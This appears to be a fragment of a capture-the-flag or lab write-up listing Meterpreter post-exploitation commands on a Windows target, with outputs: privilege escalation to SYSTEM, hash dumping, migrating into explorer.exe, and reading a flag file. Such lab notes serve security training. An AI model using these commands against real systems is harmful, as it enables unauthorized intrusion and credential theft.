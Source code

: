 ```bash
help
# Check Windows Meterpreter commands
```

```bash
screenshot
```

```bash
getsystem
	...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

getuid
	Server username: NT AUTHORITY\SYSTEM
```

```bash
hashdump
# Probably not working
```

```bash
show_mount
    Mounts / Drives
    ===============
    Name  Type   Size (Total)  Size (Free)  Mapped to
    ----  ----   ------------  -----------  ---------
    C:\   fixed   29.66 GiB      8.48 GiB   

    Total mounts/drives: 1
```

```bash
ps
migrate 2356
# explorer.exe

sysinfo
# Meterpreter: x64/windows
```

```bash
cd C:\\
cat flag.txt
	f74c8347798f4082daf4b4570dba094a
```

### Some Post Exploitation

```bash
background
sessions
	1 meterpreter x64/windows WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN 10.10.24.4:4444 -> 10.2.16.114:49508 (10.2.16.114)
```

- Architecture migrate
